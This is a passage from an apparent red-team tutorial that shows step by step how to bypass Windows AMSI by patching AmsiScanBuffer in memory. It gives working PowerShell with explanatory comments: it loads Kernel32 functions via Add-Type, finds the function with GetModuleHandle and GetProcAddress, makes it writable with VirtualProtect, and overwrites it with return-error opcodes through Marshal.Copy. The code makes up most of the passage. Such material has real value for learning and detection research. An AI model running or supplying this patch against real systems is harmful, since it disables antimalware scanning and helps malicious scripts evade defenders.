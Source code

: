 The functions are now defined, but we need to load the API calls using `Add-Type`. This cmdlet will load the functions with a proper type and namespace that will allow the functions to be called.

```powershell
$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;
```

Now that we can call our API functions, we can identify where `amsi.dll` is located and how to get to the function. First, we need to identify the process handle of AMSI using `GetModuleHandle`. The handle will then be used to identify the process address of `AmsiScanBuffer` using `GetProcAddress`.

```csharp
$handle = [Win32.Kernel32]::GetModuleHandle(
	'amsi.dll' // Obtains handle to amsi.dll
);
[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress(
	$handle, // Handle of amsi.dll
	'AmsiScanBuffer' // API call to obtain
); 
```

Next, we need to modify the memory protection of the `AmsiScanBuffer` process region. We can specify parameters and the buffer address for `VirtualProtect`.

Information on the parameters and their values can be found from the previously mentioned API documentation.

```csharp
[UInt32]$Size = 0x5; // Size of region
[UInt32]$ProtectFlag = 0x40; // PAGE_EXECUTE_READWRITE
[UInt32]$OldProtectFlag = 0; // Arbitrary value to store options
[Win32.Kernel32]::VirtualProtect(
	$BufferAddress, // Point to AmsiScanBuffer
	$Size, // Size of region
	$ProtectFlag, // Enables R or RW access to region
	[Ref]$OldProtectFlag // Pointer to store old options
); 
```

We need to specify what we want to overwrite the buffer with; the process to identify this buffer can be found [here](https://rastamouse.me/memory-patching-amsi-bypass/). Once the buffer is specified, we can use [marshal copy](https://docs.microsoft.com/en-us/dotnet/api/system.runtime.interopservices.marshal.copy?view=net-6.0) to write to the process.

```csharp
$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3);

[system.runtime.interopservices.marshal]::copy(
	$buf, // Opcodes/array to write
	0, // Where to start copying in source array 
	$BufferAddress, // Where to write (AsmiScanBuffer)
	6 // Number of elements/opcodes to write
); 
```

At this stage, we should have an AMSI bypass that works! It should be noted that with most tooling, signatures and detections can and are crafted to detect this script.
